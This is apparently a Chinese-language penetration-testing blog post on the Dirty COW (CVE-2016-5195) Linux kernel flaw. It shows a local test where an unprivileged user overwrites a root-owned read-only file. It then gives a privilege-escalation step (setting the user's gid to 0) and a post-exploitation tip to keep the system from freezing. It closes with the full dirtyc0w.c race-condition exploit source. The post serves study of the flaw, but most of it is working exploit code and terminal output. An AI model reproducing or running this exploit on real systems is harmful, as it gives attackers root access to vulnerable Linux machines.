 +++
date = "2016-10-22T00:10:46+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "脏牛漏洞"
topics = ["Pentest"]

+++

### 0x00 测试环境
> 我是在本地虚拟机测试的，个人理解这个漏洞的话可以起到的作用是：一个普通用户可以覆盖一个root用户的只读文件，若理解有误则希望大家提意见

> ```
CentOS release 6.5
[reber123@WYB ~]$ uname -a
Linux WYB 3.10.5-3.el6.x86_64 #1 SMP Tue Aug 20 14:10:49 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
[reber123@WYB ~]$ id
uid=502(reber123) gid=502(reber123) groups=502(reber123)
```

### 0x01 创建文件
> 查看文件权限信息，可以看到属主为root，且只读，权限为0404
```
[reber123@WYB ~]$ ls -al test
-r-----r-- 1 root root 19 Oct 21 00:02 test
[reber123@WYB ~]$ cat test
this is not a test
[reber123@WYB ~]$
```

### 0x02 编译、执行poc
> POC保存为a.c，编译为aaa
```
[reber123@WYB ~]$ gcc -lpthread a.c -o aaa
[reber123@WYB ~]$ ls
aaa  a.c  test
[reber123@WYB ~]$

更改test的内容
[reber123@WYB ~]$ ./aaa test xxxxxxxxxxx
mmap f8969000

^C
[reber123@WYB ~]$ cat test
xxxxxxxxxxx a test
[reber123@WYB ~]$
```

### 0x03 后续利用
> 更改用户gid为0即可
{{% fluid_img src="/img/post/dirty_cow1.png" alt="脏牛1" %}}
<br /><br />
{{% fluid_img src="/img/post/dirty_cow2.png" alt="脏牛2" %}}
```
提权后执行下：echo 0 > /proc/sys/vm/dirty_writeback_centisecs 
用来关闭pdflush刷新,否则提权后过几秒系统就会卡死
```


### 0x04 附poc
> ```
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -lpthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
  
void *map;
int f;
struct stat st;
char *name;
  
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/secu ... 06661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
  
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/sh ... 23c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
  
  
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3)return 1;
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %x\n\n",map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```